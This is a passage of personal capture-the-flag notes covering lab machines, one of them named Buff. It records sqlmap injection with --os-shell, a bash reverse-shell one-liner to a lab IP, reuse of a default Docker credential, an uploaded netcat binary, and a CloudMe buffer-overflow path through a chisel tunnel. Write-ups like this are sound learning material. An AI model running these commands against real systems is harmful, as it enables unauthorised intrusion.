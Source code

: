 And we use this request in SQLMap
![[Pasted image 20250123152212.png]]
Perfect, we have the different vulnerabilities
![[Pasted image 20250123152438.png]]
We got the hash for the admin password
![[Pasted image 20250123152924.png]]
So now lets try and crack it, since we know is an md5 hash from the recon
After a long time, since I could advance, I look at the walkthroug and so I discovered a function from SQLMap to execute os commands
using
`sqlmap -r request.req --force-sql --os-shell`
This allows to give an os command, so we can use a reverse shell
`bash -c 'bash -i &> /dev/tcp/10.10.14.12/4444 0>&1'`
Perfect, we have our reverse shell
![[Pasted image 20250123164048.png]]
Since we are in a container I used a portscanner with bash to see of there is another open ports
![[Pasted image 20250123165659.png]]
so apparently toolbox has the default credential docker:tcuser
And this works
Once we are in the host machine we can change to the root user without passwd
find / -name root.txt 2>/dev/null
![[Pasted image 20250123173119.png]]

### Buff✅
#### Initial Access
![[Pasted image 20250128155547.png]]
![[Pasted image 20250128160525.png]]
![[Pasted image 20250128160755.png]]
It appears to be some gym management system
This system has a known vulnerability as we can find in exploit db
https://www.exploit-db.com/exploits/48506
I had to use python 2.7 to work
Finally i uploaded the nc.exe binary so I can have a proper reverse shell
![[Pasted image 20250128165721.png]]
![[Pasted image 20250128165921.png]]
#### Priv Esc
The only insteresting binary found is this CloudMe_1112.exe
![[Pasted image 20250128170737.png]]
This is an enterprise cloud software, and I found some vulnerabilities that take advantages of a Buffer overflow
So this has a service running in the localhost port 8888, this is the default port for this service
We can confirm this by `netstat -an | findstr "LISTENING"`
![[Pasted image 20250128171620.png]]
At this point im kinda lost, so I watch the walkthrough of S4vitaar
https://www.youtube.com/watch?v=TytUFooC3kU
So, now we need to tunnel the connections since the service is running in the windows localhost, so to access it we should go from our attacker machine -> to victim machine -> localhost service port 8888, so we can exploit this version of Cloud Me
So for this I will use chisel
Now I had to download the binaries of chisel for win and linux, to run both one in server mode and the other in client mode
![[Pasted image 20250128190913.png]]
So we have running the chisel server, now we need the client on the windows machine and forward the 8888 port through the tunnel